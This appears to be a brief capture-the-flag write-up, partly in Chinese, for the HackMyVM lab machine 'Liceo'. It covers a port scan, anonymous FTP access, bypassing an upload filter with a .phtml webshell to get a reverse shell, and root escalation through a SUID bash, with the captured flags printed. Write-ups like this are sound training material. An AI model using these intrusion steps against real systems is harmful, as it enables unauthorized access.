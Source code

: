 # Liceo

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Liceo

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆发现：

```
Hi Matias, I have left on the web the continuations of today's work,
would you mind contiuing in your turn and make sure that the web will be secure?
Above all, we dont't want intruders...
```

发现一个用户名 Matias

web 发现上传 http://192.168.5.39/upload.php 上传的文件存储在 http://192.168.5.39/uploads/ 不能上传 php 文件，但可以上传 phtml 文件，上传 webshell，拿到反弹 shell。

先拿到 user flag：

```
bash-5.1$ cat user.txt
71ab613fa286844425523780a7ebbab2
```

发现 suid 直接提权到 root：

```
bash-5.1$ /usr/bin/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt  snap
bash-5.1# cat root.txt
BF9A57023EDD8CFAB92B8EA516676B0D
```
